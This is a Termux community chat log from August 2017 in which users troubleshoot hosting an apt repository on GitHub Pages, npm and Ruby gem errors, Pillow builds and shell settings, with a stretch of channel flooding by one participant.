2017-08-25 17:16:40	gitter	(cocodevienne) Now tell me what is inside empty.

2017-08-25 17:16:45	gitter	(sdrausty) OK 👍

2017-08-25 17:17:13	gitter	(sdrausty) dists

2017-08-25 17:17:16	gitter	(cocodevienne) You want help with uploading?

2017-08-25 17:17:33	gitter	(cocodevienne) Ok that seems legit.

2017-08-25 17:18:34	gitter	(sdrausty) Yes, of course. That's step two, right?

2017-08-25 17:18:53	gitter	(cocodevienne) whats step two? uploading?

2017-08-25 17:23:57	gitter	(sdrausty) cat $PREFIX/etc/apt/sources.list.d

2017-08-25 17:24:44	gitter	(cocodevienne) I'd suggest actually uploading to your site..

2017-08-25 17:24:52	gitter	(sdrausty) cat: /data/data/com.termux/files/usr/etc/apt/sources.list.d: No such file or directory

2017-08-25 17:25:10	gitter	(cocodevienne) I'll tell you what needs to be done.

2017-08-25 17:25:37	gitter	(cocodevienne) First, clone the repo of your website to your device with `git clone <url>`

2017-08-25 17:28:17	gitter	(sdrausty) Created and cloned...

2017-08-25 17:28:38	gitter	(sdrausty) I have created

2017-08-25 17:28:59	gitter	(sdrausty) https://github.com/sdrausty/myrepo

2017-08-25 17:29:00	gitter	(cocodevienne) What have you created?

2017-08-25 17:29:09	gitter	(cocodevienne) No you do not need to.

2017-08-25 17:29:12	gitter	(cocodevienne) Delete it.

2017-08-25 17:29:15	gitter	(cocodevienne) Dude

2017-08-25 17:29:24	gitter	(sdrausty) And cloned it to device.

2017-08-25 17:29:24	gitter	(cocodevienne) *slowly!!

2017-08-25 17:29:31	gitter	(cocodevienne) No, no.

2017-08-25 17:29:38	gitter	(cocodevienne) Listen to me.

2017-08-25 17:29:49	gitter	(cocodevienne) Can you please delete it?

2017-08-25 17:29:57	gitter	(cocodevienne) You don't need it.

2017-08-25 17:30:50	gitter	(sdrausty) What is next @cocodevienne ?

2017-08-25 17:31:17	gitter	(cocodevienne) Execute this:

2017-08-25 17:31:57	gitter	(cocodevienne) `cd $HOME && git clone http://github.com/sdrausty/sdrausty.github.io`

2017-08-25 17:32:04	gitter	(cocodevienne) Done?

2017-08-25 17:32:28	gitter	(sdrausty) Yes

2017-08-25 17:34:07	gitter	(cocodevienne) Good.

2017-08-25 17:34:19	gitter	(cocodevienne) Now do this:

2017-08-25 17:34:32	gitter	(cocodevienne) `cd sdrausty.github.io`

2017-08-25 17:34:39	gitter	(sdrausty) Ok

2017-08-25 17:34:40	gitter	(cocodevienne) `rm -rf .git`

2017-08-25 17:34:48	gitter	(sdrausty) Ok

2017-08-25 17:34:51	gitter	(cocodevienne) `cd $HOME

2017-08-25 17:34:56	gitter	(sdrausty) Ok

2017-08-25 17:34:59	gitter	(cocodevienne) * `cd $HOME`

2017-08-25 17:35:10	gitter	(sdrausty) cd

2017-08-25 17:35:14	gitter	(cocodevienne) `cd myrepo`

2017-08-25 17:35:20	gitter	(sdrausty) Ok

2017-08-25 17:35:40	gitter	(cocodevienne) `mv empty $HOME/sdrausty.github.io`

2017-08-25 17:35:56	gitter	(sdrausty) Ok

2017-08-25 17:35:58	gitter	(cocodevienne) `cd $HOME/sdrausty.github.io`

2017-08-25 17:36:08	gitter	(sdrausty) Ok

2017-08-25 17:36:09	gitter	(cocodevienne) mv empty termuxpackages

2017-08-25 17:36:21	gitter	(sdrausty) .

2017-08-25 17:36:38	gitter	(cocodevienne) And nlw go yo the GitHub website and delete the repo for your website.

2017-08-25 17:36:47	gitter	(cocodevienne) *now to

2017-08-25 17:37:07	gitter	(cocodevienne) After that is done: Create a new public repo.

2017-08-25 17:37:16	gitter	(cocodevienne) With this name:

2017-08-25 17:37:24	gitter	(cocodevienne) `sdrausty.github.io`

2017-08-25 17:37:37	gitter	(cocodevienne) Done?

2017-08-25 17:38:27	gitter	(sdrausty) Lost you after `mv empty termuxpackages`👈

2017-08-25 17:39:03	gitter	(cocodevienne) Renaming...

2017-08-25 17:40:11	gitter	(cocodevienne) Done?

2017-08-25 17:40:18	gitter	(sdrausty) No

2017-08-25 17:41:47	gitter	(sdrausty) Upload texmuxpackages as subdir to sdrausty.github.io ?

2017-08-25 17:41:48	gitter	(cocodevienne) Whats puzzling you?:)

2017-08-25 17:41:53	gitter	(sdrausty) Why?

2017-08-25 17:41:57	gitter	(cocodevienne) Exactly.

2017-08-25 17:42:07	gitter	(sdrausty) Just make new repo at

2017-08-25 17:42:24	gitter	(cocodevienne) Because if you try to serve it from another repo GitHub will not serve a file.

2017-08-25 17:42:27	gitter	(sdrausty) https://github.com/sdrausty/myrepo Right?

2017-08-25 17:42:52	gitter	(sdrausty) So upload it as

2017-08-25 17:43:10	gitter	(cocodevienne) Instead it will serve its html file displaying the tree - what you would see if you were to open it in a browser.

2017-08-25 17:43:27	gitter	(cocodevienne) It treats sdrausty.github.io as a server if you will.

2017-08-25 17:43:29	gitter	(sdrausty) https://sdrausty.github.io/termuxpackages ?

2017-08-25 17:43:34	gitter	(cocodevienne) All clear?

2017-08-25 17:43:41	gitter	(cocodevienne) No, your website.

2017-08-25 17:43:45	gitter	(cocodevienne) trust me!

2017-08-25 17:44:13	gitter	(cocodevienne) Fornwall, Vishal Biswas and frumpylava and I had this discussion when Ibwas still learning.

2017-08-25 17:44:16	gitter	(cocodevienne) @sdrausty

2017-08-25 17:44:42	gitter	(cocodevienne) Follow my steps and you'll be fine.

2017-08-25 17:44:55	gitter	(cocodevienne) Don't and you'll just get confused.

2017-08-25 17:45:27	gitter	(sdrausty) What should the link/address for termuxpackages be @cocodevienne ?

2017-08-25 18:00:23	gitter	(cocodevienne) A proper server/website so that GitHub can actually serve thr files.

2017-08-25 18:00:37	gitter	(cocodevienne) Please just follow the steps I outlined above!:)

2017-08-25 18:01:19	gitter	(cocodevienne) You can upload the folder structure manually via the GitHub website to sdrausty.github.io or delete your repo and commit it via Git.

2017-08-25 18:01:26	gitter	(cocodevienne) I leave it to you.

2017-08-25 18:25:06	gitter	(cocodevienne) @sdrausty

2017-08-25 18:31:38	gitter	(sdrausty)  @cocodevienne It's uploaded to https://github.com/sdrausty/myrepo

2017-08-25 18:34:01	gitter	(sdrausty)  Your site is published at https://sdrausty.github.io/myrepo/ but it is not working.

2017-08-25 18:37:09	gitter	(sdrausty) @cocodevienne What's the address to your repo please?

2017-08-25 19:12:17	gitter	(sdrausty) I've found the repos @its-pointless and @Auxilus have. Where's yours? What do you configure to use third party repos?

2017-08-25 19:28:33	gitter	(cocodevienne) Can I tell you tomorrow, I'm kinda sleepy..

2017-08-25 19:31:11	gitter	(sdrausty) Found instructions in its-pointless' repo. Goodnight @cocodevienne

2017-08-25 19:31:53	gitter	(cocodevienne) You'll see that they are similar to what I told you...

2017-08-25 20:01:07	gitter	(sdrausty) @cocodevienne It seems to be working fine now from  https://github.com/sdrausty/myrepo

2017-08-25 20:01:08	gitter	(sdrausty)

2017-08-25 20:01:08	gitter	(sdrausty) There was some error in index.md and it is being served now from https://sdrausty.github.io/myrepo/

2017-08-25 20:01:08	gitter	(sdrausty) [full message: https://gitter.im/termux/termux?at=59a0ba43ba0f0f6e38e355d9]

2017-08-25 20:03:06	gitter	(cocodevienne) I just said that about deleting because you could have moved the repo structure to your repo website structure and committed the whole thing in one shot.

2017-08-25 20:03:19	gitter	(cocodevienne) But if you managed like that then that is fine.

2017-08-25 20:03:41	gitter	(cocodevienne) There you go then. Hope I helped somewhat! ;)

2017-08-25 20:03:46	gitter	(cocodevienne) @sdrausty

2017-08-25 20:03:55	gitter	(cocodevienne) Good Night, amigo.

2017-08-25 20:04:20	gitter	(cocodevienne) I'm literally falling asleep here. If you need some help, gimme a shout!;)

2017-08-25 20:06:34	gitter	(sdrausty) Thanks again @cocodevienne

2017-08-25 20:30:44	frumpylava	Cava on Termux is soooo pretty. https://glow.li/technology/2017/08/26/cava-on-termux.html

2017-08-25 21:50:15	g093	frumpylava: I just installed it. How do you get it to visualise?

2017-08-25 22:53:18	gitter	(suryapoo) Hello guys...how to set GOPATH in termux?

2017-08-26 00:26:35	gitter	(Auxilus) @vishalbiswas @fornwall , got this error while exec `termux-apt-repo`

2017-08-26 00:26:38	gitter	(Auxilus) localhost ~/docs >

2017-08-26 00:26:38	gitter	(Auxilus) termux-apt-repo debs $HOME/Auxilus.github.io/packages/

2017-08-26 00:26:38	gitter	(Auxilus)

2017-08-26 00:26:38	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=59a0f87dee5c9a4c5ffe545f]

2017-08-26 01:32:08	gitter	(Hax4us) @cocodevienne bro I have already pillow installed .....

2017-08-26 06:07:29	frumpylava	g093: You play some music in mpd (you'll have to enable visualizer output with `mpc enable 3`

2017-08-26 06:23:13	live_the_dreams	hmm  interesting bug with convert

2017-08-26 06:23:25	live_the_dreams	since it actually works sometimes

2017-08-26 06:35:47	gitter	(Auxilus) Any1 tried installing `rbnacl-libsodium` gem?

2017-08-26 06:39:11	gitter	(suryapoo) Guys..how to compile a .cpp file in termux

2017-08-26 06:53:14	live_the_dreams	clang++ ?

2017-08-26 06:58:03	gitter	(suryapoo) Gr88!!

2017-08-26 06:58:11	gitter	(suryapoo) Thanks a ton

2017-08-26 07:47:35	frumpylava	live_the_dreams: can you reproduce the convert bug?

2017-08-26 07:47:48	live_the_dreams	ye

2017-08-26 07:49:16	frumpylava	I'm always glad when I am not the only one with an issue 😌

2017-08-26 07:50:04	gitter	(Auxilus) Can you help me with rbnacl-libsodium?

2017-08-26 08:10:26	BrainDam1	is it possible to set font size on a per session basis? i'd like to keep a different size for chat and another for a shell

2017-08-26 08:11:04	BrainDam1	also, did latest update cripple chsh? my shell now always start as bash rgardless of what i've set it to

2017-08-26 08:47:46	live_the_dreams	chsh works here?

2017-08-26 08:57:37	gitter	(Auxilus) live_the_dreams: it works...

2017-08-26 09:05:49	gitter	(Auxilus) BTW I installed `metasploit-framework 4.16.2`without `rbnacl-libsodium`

2017-08-26 09:22:25	BrainDam1	here chsh absolutely doesn't work

2017-08-26 09:22:46	BrainDam1	chshs -s zsh, start a new session, and i still get bash

2017-08-26 09:23:01	BrainDam1	this started happening only after latest update

2017-08-26 09:23:16	BrainDam1	sorry, chsh -s zsh, without typos

2017-08-26 09:26:31	gitter	(cocodevienne) Hey, Auxilus. I have a fix for your problem.

2017-08-26 09:27:03	gitter	(cocodevienne) https://github.com/cocodevienne/termuxpackages/tree/master/make-apt-repo/bin

2017-08-26 09:27:18	gitter	(cocodevienne) Use the script here for `termux-apt-repo`

2017-08-26 09:27:28	gitter	(cocodevienne) Idk clone it or something.

2017-08-26 09:27:32	gitter	(cocodevienne) @Auxilus

2017-08-26 09:31:25	gitter	(Hax4us) @cocodevienne bro have u any idea about import image as core error

2017-08-26 09:32:05	gitter	(cocodevienne) What?

2017-08-26 09:32:37	gitter	(Hax4us) ImportError: dlopen failed: cannot locate symbol "log" referenced by "/data/data/com.termux/files/usr/lib/python2.7/site-packages/PIL/_imaging.so"...

2017-08-26 09:32:41	gitter	(Hax4us) This one

2017-08-26 09:34:49	gitter	(Auxilus) @cocodevienne ill try it out...

2017-08-26 09:35:03	gitter	(Auxilus) Btw what was my errot about?

2017-08-26 09:36:05	gitter	(cocodevienne) Did you try what I told you yesterday? @Hax4us

2017-08-26 09:37:05	gitter	(cocodevienne) I think something to do with the `control` file and trying to extract that. I had a similar probelm until @vishalbiswas told me how to fix it. Patched script is at the address I gave you!:)

2017-08-26 09:37:08	gitter	(cocodevienne) @Auxilus

2017-08-26 09:43:11	gitter	(Hax4us) @cocodevienne yes I tried and successfully installed pillow

2017-08-26 09:43:54	gitter	(Hax4us) 😑

2017-08-26 09:45:55	live_the_dreams	log is in libm.so

2017-08-26 09:46:41	live_the_dreams	you have to set LDFLAGS=" -lm -lcompiler_rt" before you build Pillow

2017-08-26 09:47:34	gitter	(cocodevienne) And did it work?

2017-08-26 09:47:38	gitter	(cocodevienne) @Auxilus

2017-08-26 09:56:31	gitter	(Auxilus) Wait.. Im out.. Ill try it as soon as I go home

2017-08-26 09:59:35	gitter	(TheReturningVoid) Hi, having some issues with npm in termux.

2017-08-26 10:01:13	gitter	(TheReturningVoid) Trying to install any package globally gives me an EACCESS on `/data/data/com.termux/files/home/.npm/_cacache/tmp/<random>`

2017-08-26 10:02:22	gitter	(TheReturningVoid) Wrapping it in `proot --link2symlink` gives a ENOENT on `/data/data/com.termux/files/home/.npm/_cacache/content-v2/sha512/<random>`

2017-08-26 10:02:31	gitter	(TheReturningVoid) Any ideas?

2017-08-26 10:09:26	Ourbp_	Hey

2017-08-26 10:09:32	Ourbp_	Is Simeone here?

2017-08-26 10:09:35	Ourbp_	Someone

2017-08-26 10:09:48	Ourbp_	Anyone?

2017-08-26 10:11:25	live_the_dreams	yep

2017-08-26 10:11:26	live_the_dreams	ls

2017-08-26 10:11:44	live_the_dreams	what is the issue?

2017-08-26 11:28:51	gitter	(masterkorp) Hello, is it possible to alter the system date open an app, simulate a touch event and close the app?

2017-08-26 12:13:38	gitter	(Hax4us) @live_the_dreams problem is still same

2017-08-26 16:40:10	freddyx	m8

2017-08-26 16:40:19	freddyx	gem cause me an error on termux

2017-08-26 16:40:49	freddyx	https://0bin.net/paste/turq84AcWu6TVsYd#g3OY9g6STRmAu-OLJNRLnrn+JDCn3b1gp51v1XWgZrU look at here

2017-08-26 16:42:30	freddyx	i can't execute any commands with gem or ruby

2017-08-26 16:42:31	freddyx	:C

2017-08-26 16:42:54	azarus	freddyx: That's a bit vague. Any context?

2017-08-26 16:43:06	freddyx	?

2017-08-26 16:43:27	azarus	Context as in what are you trying to achieve and what steps you've taken to achieve said goal.

2017-08-26 16:44:02	freddyx	i've sended the commands `gem update` and termux have send me this error

2017-08-26 16:45:06	freddyx	i've tried also gem install or other commands with `gem` and termux sended me always this output

2017-08-26 16:45:15	azarus	Try reinstalling ruby.

2017-08-26 16:45:21	freddyx	i've tryed

2017-08-26 16:45:24	azarus	(and ruby-dev too while you're at it)

2017-08-26 16:45:26	freddyx	but didn't work

2017-08-26 16:46:18	azarus	Have you 'removed' or 'purged' the packages?

2017-08-26 16:46:21	freddyx	i've tryed also with only ruby and without ruby-dev, and i've alway this output

2017-08-26 16:46:23	freddyx	yes

2017-08-26 16:46:42	azarus	uh, 'purge' or 'remove'?

2017-08-26 16:46:57	freddyx	i've tried many times with  both

2017-08-26 16:47:31	azarus	And this is the only error message you get?

2017-08-26 16:47:50	freddyx	yes

2017-08-26 16:48:27	freddyx	i've tried also to reinstall the app

2017-08-26 16:48:30	freddyx	but not work :C

2017-08-26 16:49:06	azarus	Can you tell me the exact commands?

2017-08-26 16:49:12	freddyx	`gem update`

2017-08-26 16:49:15	freddyx	without `

2017-08-26 16:49:44	azarus	All the commands. What's your end goal?

2017-08-26 16:49:58	freddyx	my end goal is install metasploit lol

2017-08-26 16:50:29	freddyx	https://wiki.termux.com/wiki/Metasploit#Automatic_Installation with this commands

2017-08-26 16:50:30	azarus	There's a wiki page for that, if you need it.

2017-08-26 16:50:41	azarus	Oh, funny.

2017-08-26 16:50:44	freddyx	i've checked the wiki

2017-08-26 16:50:51	freddyx	lol

2017-08-26 16:51:15	azarus	I sadly don't use ruby for metasploit, can't help you much more :s

2017-08-26 16:51:17	freddyx	i'm not a skiddie, after to enter here, i've readed the docs and searched on google xd

2017-08-26 16:51:54	freddyx	ok, i'm sorry

2017-08-26 16:52:12	azarus	No need to be.

2017-08-26 16:52:21	azarus	Maybe there are other people who can help you more.

2017-08-26 16:52:50	freddyx	thx

2017-08-26 16:53:51	gitter	(Radigar) Hi, please need help, how I can use Function Keys like F1,F2 etc.. in Termux?

2017-08-26 16:53:58	freddyx	i'm trying to reinstall app

2017-08-26 16:54:41	azarus	@Radigar With a physical keyboard or over ssh works good!

2017-08-26 16:54:52	azarus	Although you can use software keyboards too.

2017-08-26 16:55:41	azarus	@Radigar this one works well: https://play.google.com/store/apps/details?id=org.pocketworkstation.pckeyboard Has all the function keys.

2017-08-26 16:56:49	freddyx	why termux doesn't have this packets by default https://github.com/st42/termux-sudo ?

2017-08-26 16:56:54	azarus	freddyx: Because very few people have a rooted phone.

2017-08-26 16:56:59	freddyx	it's cool and helpful

2017-08-26 16:57:05	freddyx	eh

2017-08-26 16:57:12	freddyx	i've rooted the phone

2017-08-26 16:57:12	azarus	freddyx: Root is a liability.

2017-08-26 16:57:30	freddyx	yes

2017-08-26 16:57:42	freddyx	then?

2017-08-26 16:57:43	azarus	termux-sudo is great, but for the regular user it's just not needed.

2017-08-26 16:57:56	azarus	Termux tries to be minimal.

2017-08-26 16:58:01	gitter	(Radigar) Thank you so much

2017-08-26 16:58:13	freddyx	ok thx

2017-08-26 19:09:29	frumpylava	BrainDamage: chsh creates a symlink at ~/.termux/shell. Where does it point to on your termux after you run it?

2017-08-26 20:15:49	gitter	(TheReturningVoid) Sorry to ask again, but I think people might have mssed my question

2017-08-26 20:16:10	gitter	(TheReturningVoid) Trying to install any package with npm globally gives me an EACCESS on `/data/data/com.termux/files/home/.npm/_cacache/tmp/<random>`

2017-08-26 20:16:10	gitter	(TheReturningVoid) Wrapping it in `proot --link2symlink` gives a ENOENT on `/data/data/com.termux/files/home/.npm/_cacache/content-v2/sha512/<random>`

2017-08-26 20:22:37	g093	Compiling from Termux? 

2017-08-26 20:22:58	g093	https://github.com/termux/play-audio/issues/2

2017-08-26 20:25:32	g093	Is it possible to compile this from Termux directly?

2017-08-26 20:37:29	g093	lrwxrwxrwx  1 u0_a93 u0_a93   40 Aug 26 13:05 shell -> /data/data/com.termux/files/usr/bin/bash

2017-08-26 20:52:42	g093	Install moon.apk from /sdcard/Download/ using your file manager from Android.

2017-08-26 20:54:08	g093	It is ready to be installed.

2017-08-26 20:57:56	g093	.i want cava 

2017-08-26 20:58:10	g093	cava mezmer 

2017-08-26 20:59:06	g093	frumpylava: where's .bashrc in zsh?

2017-08-26 21:03:22	gitter	(sdrausty) Our moon app is ready to go.

2017-08-26 21:03:22	gitter	(sdrausty) Your moon.apk was copied to /sdcard/Download/moon.apk

2017-08-26 21:03:22	gitter	(sdrausty) It is ready to be installed.

2017-08-26 21:03:22	gitter	(sdrausty) Install moon.apk from /sdcard/Download/ using your file manager from Android.

2017-08-26 21:04:43	gitter	(sdrausty) in Termux on device @TermuxBot

2017-08-26 21:07:08	gitter	(sdrausty) `youtube-dl https://m.youtube.com/watch?list=PLjw9pdSQ4sqsBHfKZH2gT3SgzBANZ0ltP&v=fZ_YAK0NSX0`

2017-08-26 21:11:31	gitter	(sdrausty) [youtube]

2017-08-26 21:11:31	gitter	(sdrausty) ERROR: ungav2gaOVw: YouTube said: This video contains content from SME, who has blocked it in your country on copyright grounds.

2017-08-26 21:12:06	gitter	(sdrausty) $ play-audio youtube/chopin/

2017-08-26 21:12:06	gitter	(sdrausty) Chopin - Complete Mazurkas (Full Album)-H5D46aHhRDM.mkv

2017-08-26 21:12:06	gitter	(sdrausty) Chopin - Complete Nocturnes (Brigitte Engerer)-liTSRH4fix4.mkv

2017-08-26 21:12:06	gitter	(sdrausty) [full message: https://gitter.im/termux/termux?at=59a21c65578b44a046f09093]

2017-08-26 21:15:08	rods-tab3	iirc Chopin is Polish - are you Polish ?

2017-08-26 21:24:38	g093	i thought e vas duech?

2017-08-26 21:24:54	g093	rods-tab³

2017-08-26 21:25:37	g093	$ play-audio *.webm

2017-08-26 21:28:44	g093	$ play-audio animals/Pi

2017-08-26 21:28:44	g093	Pigs on the Wing (Part Two) Pink Floyd--whsZmemNcw.mkv

2017-08-26 21:28:44	g093	Pink Floyd - Dogs (1977)-nUTKRtLjjnM.mkv

2017-08-26 21:28:44	g093	Pink Floyd - Pigs (Three Different Ones)-2Okd3Oyii7E.mkv

2017-08-26 21:28:44	g093	Pink Floyd - Pigs On The Wing (Part 1)-GfRWTg61W24.mkv

2017-08-26 21:28:44	g093	Pink Floyd - Sheep - Animals 1977-98SAT32a_9A.mkv

2017-08-26 21:30:32	g093	wherz cawa ?

2017-08-26 21:38:50	g093	azarus: A Termux addon could be root-api @fornwall @..

2017-08-26 21:40:04	g093	`termux-su`

2017-08-26 21:40:32	g093	`termux-sudo`

2017-08-26 21:40:50	g093	root

2017-08-26 21:40:56	g093	rot

2017-08-26 21:41:25	g093	we all want root, don't we

2017-08-26 21:51:49	g093	frumpylava: i don't want a deamon serving...

2017-08-26 21:51:56	g093	mpd?

2017-08-26 21:52:20	g093	is a deamon, so it is out.

2017-08-26 21:52:36	g093	local 127.00.0.1

2017-08-26 21:52:45	g093	is out

2017-08-26 21:54:09	g093	`/` is acceptable, which means `play-audio`™ is at

2017-08-26 21:54:56	g093	https://github.com/termux/play-audio

2017-08-26 21:55:01	g093	lets

2017-08-26 21:55:18	g093	integrate

2017-08-26 21:55:49	g093	`cava` into `play-audio`

2017-08-26 21:56:58	g093	garb

2017-08-26 21:57:12	g093	onscreen lots inc line

2017-08-26 22:07:01	gitter	(sdrausty) https://sdrausty.github.io/pages/Tanomalies

2017-08-26 22:11:40	g093	https://plus.google.com/109614420080028230010/posts/Ey4eBAxASFM

2017-08-26 22:12:15	g093	wherz mi pos't ? laddies.

2017-08-26 22:12:47	g093	It is easiest to have websites in your pocket📲

2017-08-26 22:12:47	g093	The virtual keyboard is the lightest of all, and with multi-finger typing💅

2017-08-26 22:12:47	g093	Lightening many fingers speed is enlightening, to say least of all👂

2017-08-26 22:12:47	g093	Will we ever forget that 🐁 mouse? The one matrix transformed into a tap tap at the window of a little brick 🏠 house.

2017-08-26 22:12:47	g093	686 packages that are available for all and arm computer architectures for Termux on Android as of 2017-08-24. 

2017-08-26 22:12:47	g093	https://sdrausty.github.io/pages/more

2017-08-26 22:13:37	g093	https://plus.google.com/109614420080028230010/posts/Ey4eBAxASFM

2017-08-26 22:14:19	g093	It'snot @google+afaict

2017-08-26 22:14:43	g093	https://plus.google.com/communities/101692629528551299417

2017-08-26 22:16:53	gitter	(sdrausty) Why are my posts not posting at google+ ?

2017-08-26 22:17:28	gitter	(sdrausty) https://plus.google.com/109614420080028230010/posts/CBjVYCT6Hwz

2017-08-26 22:27:04	g093	i wanna play it

2017-08-26 22:27:30	g093	d?

2017-08-26 22:28:29	g093	^C

2017-08-26 22:31:06	g093	the iron bells

2017-08-26 22:35:24	g093	my dvr is in my pocket...

2017-08-26 22:37:17	g093	width Termux. @fr...

2017-08-26 22:38:06	g093	who is 

2017-08-26 22:38:14	g093	al_

2017-08-26 22:38:38	g093	aleph-

2017-08-26 22:38:45	g093	*

2017-08-26 22:38:51	g093	who ade 

2017-08-26 22:38:59	g093	ade *are

2017-08-26 22:39:03	g093	you

2017-08-26 22:39:05	g093	u

2017-08-26 22:39:07	g093	U

2017-08-26 22:39:24	g093	eho r u 

2017-08-26 22:39:28	gitter	(Auxilus) g093 is a bot?

2017-08-26 22:39:35	g093	bot

2017-08-26 22:39:38	g093	bot

2017-08-26 22:39:44	g093	flodding

2017-08-26 22:39:47	g093	bit

2017-08-26 22:40:04	g093	bot @Auxilus

2017-08-26 22:40:25	gitter	(Auxilus) Stop spaming the chats

2017-08-26 22:40:39	g093	who id *s

2017-08-26 22:40:48	g093	id *is

2017-08-26 22:40:50	gitter	(TheReturningVoid) Not to backseat moderate, but can you tone down then spam a bit? These chrome notifications are getting quite irritating :P

2017-08-26 22:41:36	g093	@TheReturnigVoid tnx

2017-08-26 22:43:37	g093	It is quite frudstraiting when progress is regressed. Isn't it?

2017-08-26 22:46:21	gitter	(sdrausty) @Auxilus Do you know why https://plus.google.com/109614420080028230010/posts/Ggfmkxiv1o1 is not publishing?

2017-08-26 22:46:28	gitter	(sdrausty) @

2017-08-26 22:47:13	gitter	(sdrausty) https://plus.google.com/communities/101692629528551299417

2017-08-26 22:47:57	gitter	(sdrausty) And other posts regarding expanding Ternux?

2017-08-26 22:48:50	gitter	(sdrausty) @TheReturningVoid my posts regarding

2017-08-26 22:49:20	gitter	(sdrausty) https://github.com/sdrausty/buildAPKs

2017-08-26 22:49:41	gitter	(TheReturningVoid) Not too sure, not very familiar with Google+

2017-08-26 22:50:02	gitter	(sdrausty) Now a poem not published at Termux community day n

2017-08-26 22:50:35	gitter	(sdrausty) R u @TheReturningVoid  ?

2017-08-26 22:50:52	gitter	(TheReturningVoid) Hm?

2017-08-26 22:51:17	gitter	(sdrausty) Familiar with G+

2017-08-26 22:51:29	gitter	(TheReturningVoid) No, I'm niot

2017-08-26 22:51:44	gitter	(sdrausty) tnx

2017-08-26 22:53:00	gitter	(sdrausty) I love your java @TheReturningVoid

2017-08-26 22:53:34	gitter	(sdrausty) openjdk on mi smartphone? wow

2017-08-26 22:55:19	gitter	(sdrausty) Wherez mib https://sdrausty.github.io/buildAPKs/setup where're mi 🌟 starz

2017-08-26 23:00:22	gitter	(sdrausty) PBs+

2017-08-26 23:11:09	gitter	(sdrausty) day n *day\*

2017-08-26 23:13:06	gitter	(sdrausty) Lazy 8 day lazy 8 lying on its' side, so to say...

2017-08-26 23:13:33	gitter	(sdrausty) Not published

2017-08-26 23:14:32	gitter	(sdrausty) https://plus.google.com/109614420080028230010/posts/Ggfmkxiv1o1 WHY?

2017-08-26 23:15:15	gitter	(sdrausty) Anyone?

2017-08-26 23:18:02	gitter	(sdrausty) No one knows about Termux on Android. Everyone here, well almost everyone has an Android smartphone.

2017-08-26 23:20:28	gitter	(sdrausty) Word of mouth. Spread the word, "I've got a computer and more in my 🐕 smartphone! Have you heard anything about Termux?"

2017-08-26 23:20:50	gitter	(suryapoo) Everyone wants to play clash of clans ..they hate black terminals :)

2017-08-26 23:22:56	gitter	(sdrausty) @suryapoo https://github.com/termux/termux-app/issues/365

2017-08-26 23:24:57	gitter	(sdrausty) Why isn't my 🐕 posting https://plus.google.com/109614420080028230010/posts/Ggfmkxiv1o1

2017-08-26 23:25:41	gitter	(sdrausty) Posted at https://plus.google.com/communities/101692629528551299417

2017-08-26 23:26:23	gitter	(sdrausty) I would like to know please. Any response is reasonable, it seems.

2017-08-26 23:26:44	gitter	(Auxilus) Your post isnt posting?

2017-08-26 23:27:27	gitter	(sdrausty) @Auxilus It's not the first one at Google+

2017-08-26 23:27:33	gitter	(Auxilus) Im yet to get what your issue is :p

2017-08-26 23:27:46	gitter	(sdrausty) I tried linux🤔

2017-08-26 23:28:04	gitter	(suryapoo) @sdrausty ..update G+ ..try again

2017-08-26 23:28:20	gitter	(Auxilus) Maybe fornwall needs to grant permission for your post

2017-08-26 23:28:25	gitter	(sdrausty) Do you see anything by @sdrausty @g+ ?

2017-08-26 23:28:41	gitter	(Auxilus) On termux community?

2017-08-26 23:29:32	gitter	(suryapoo) @sdrausty no...

2017-08-26 23:29:35	gitter	(Auxilus) @sdrausty Nope

2017-08-26 23:29:50	gitter	(Auxilus) Ye maybe try updating G+

2017-08-26 23:30:36	gitter	(sdrausty) I have been posting for months, and I have observed my 🐕 postings do many things, other than post to the commuty, not that some might have gotten through.

2017-08-26 23:31:39	gitter	(sdrausty) In particular I am referring to https://plus.google.com/109614420080028230010/posts/Ggfmkxiv1o1

2017-08-26 23:32:06	gitter	(suryapoo) Hmmm...this is new to me

2017-08-26 23:32:07	gitter	(sdrausty) But others as well.  .  .   .

2017-08-26 23:32:43	gitter	(suryapoo) @sdrausty ..can see the link to your github repo

2017-08-26 23:33:12	gitter	(sdrausty) @suryapoo Can you see it on G+ ?

2017-08-26 23:33:22	gitter	(Auxilus) Yes

2017-08-26 23:33:50	gitter	(Auxilus) No wait...

2017-08-26 23:33:59	gitter	(Auxilus) Lemme chk it on g+

2017-08-26 23:34:21	gitter	(suryapoo) SD Rausty

2017-08-26 23:34:25	gitter	(Auxilus) Turns out i Uninstalled it

2017-08-26 23:34:34	gitter	(suryapoo) @sdrausty yea..it takes you to github

2017-08-26 23:34:36	gitter	(sdrausty) Do z~•%%℅<

2017-08-26 23:37:32	gitter	(suryapoo) @sdrausty https://goo.gl/photos/ruP1WE8nH17x4GKB7

2017-08-26 23:37:39	gitter	(suryapoo) Check it out

2017-08-26 23:37:50	gitter	(suryapoo) It's a link to the screenshot I took on G+

2017-08-26 23:38:39	gitter	(sdrausty) Guys. I didn't post, "Do z~•%%℅<" even though I was dozing/nodding.

2017-08-26 23:39:40	gitter	(sdrausty) As far as I can tell my posts are disappearing and reappearing on G+

2017-08-26 23:40:07	gitter	(sdrausty) Can anyone confirm this please?

2017-08-26 23:40:45	gitter	(sdrausty) But is

2017-08-26 23:40:50	gitter	(suryapoo) How do I do Do z~•%%℅<

2017-08-26 23:41:01	gitter	(sdrausty) https://plus.google.com/109614420080028230010/posts/Ggfmkxiv1o1

2017-08-26 23:41:15	gitter	(sdrausty) Up on

2017-08-26 23:41:35	gitter	(sdrausty) https://plus.google.com/communities/101692629528551299417

2017-08-26 23:42:56	gitter	(sdrausty) I see it now when I am logged in, but in an other browser - It is not there.

2017-08-26 23:43:11	gitter	(suryapoo) Which broswer

2017-08-26 23:43:26	gitter	(sdrausty) Not Chrome

2017-08-26 23:44:04	gitter	(sdrausty) Any browser that can be built on device.

2017-08-26 23:44:33	gitter	(sdrausty) https://github.com/sdrausty/buildAPKsBrowsers

2017-08-26 23:51:56	gitter	(sdrausty) any browser *any Internet browser

2017-08-26 23:59:55	gitter	(suryapoo) Maybe its something with the browser

2017-08-27 00:00:25	gitter	(suryapoo) Coz i have opened that link on chrome,fireox,opera..it has opnened perfectly

2017-08-27 00:36:37	gitter	(hattwj) Wanted to say Termux rocks! Just found out about it at work a few weeks ago. Tinkering on getting a vim / ruby dev environment setup. Almost everything works perfect!

2017-08-27 00:39:58	g093	$ play-audio 'Carly Simon - You'\''re So Vain (with lyrics)-b6UAYGxiRwU.mkv'

2017-08-27 00:42:54	g093	youtube-dl https://m.youtube.com/watch?v=b6UAYGxiRwU && play-audio please

2017-08-27 00:43:39	g093	in Termux

